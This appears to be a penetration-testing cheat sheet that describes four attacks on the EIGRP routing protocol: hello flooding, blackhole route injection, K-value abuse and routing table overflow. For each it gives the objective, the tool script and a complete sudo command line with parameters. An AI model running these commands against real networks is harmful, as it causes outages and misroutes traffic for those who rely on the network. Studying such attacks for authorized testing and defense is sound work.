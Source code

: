 **Fake EIGRP Neighbors Attack**

❃ **Objective:** To overload router CPUs by flooding them with EIGRP hello packets, potentially leading to a Denial of Service (DoS) attack.

❃ **Tool:** helloflooding.py script.

❃ **Execution:** %%%bash ~$ sudo python3 helloflooding.py --interface eth0 --as 1 --subnet 10.10.100.0/24 %%%

❃ **Parameters:**

      ✿--interface: Specifies the network interface, e.g., eth0.

      ✿--as: Defines the EIGRP autonomous system number, e.g., 1.

      ✿--subnet: Sets the subnet location, e.g., 10.10.100.0/24.

**EIGRP Blackhole Attack**

❃ **Objective:** To disrupt network traffic flow by injecting a false route, leading to a blackhole where the traffic is directed to a non-existent destination.

❃ **Tool:** routeinject.py script.

❃ **Execution:** %%%bash ~$ sudo python3 routeinject.py --interface eth0 --as 1 --src 10.10.100.50 --dst 172.16.100.140 --prefix 32 %%%

❃ **Parameters:**

       ✿--interface: Specifies the attacker’s system interface.

       ✿--as: Defines the EIGRP AS number.

       ✿--src: Sets the attacker’s IP address.

       ✿--dst: Sets the target subnet IP.

       ✿--prefix: Defines the mask of the target subnet IP.

**Abusing K-Values Attack**

❃ **Objective:** To create continuous disruptions and reconnections within the EIGRP domain by injecting altered K-values, effectively resulting in a DoS attack.

❃ **Tool:** relationshipnightmare.py script.

❃ **Execution:** %%%bash ~$ sudo python3 relationshipnightmare.py --interface eth0 --as 1 --src 10.10.100.100 %%%

❃ **Parameters:**

         ✿--interface: Specifies the network interface.

         ✿--as: Defines the EIGRP AS number.

         ✿--src: Sets the IP Address of a legitimate router.

**Routing Table Overflow Attack**

❃ **Objective:** To strain the router's CPU and RAM by flooding the routing table with numerous false routes.

❃ **Tool:** routingtableoverflow.py script.

❃ **Execution:** %%%bash sudo python3 routingtableoverflow.py --interface eth0 --as 1 --src 10.10.100.50 %%%

❃ **Parameters:**

         ✿--interface: Specifies the network interface.

         ✿--as: Defines the EIGRP AS number.

         ✿--src: Sets the attacker’s IP address.
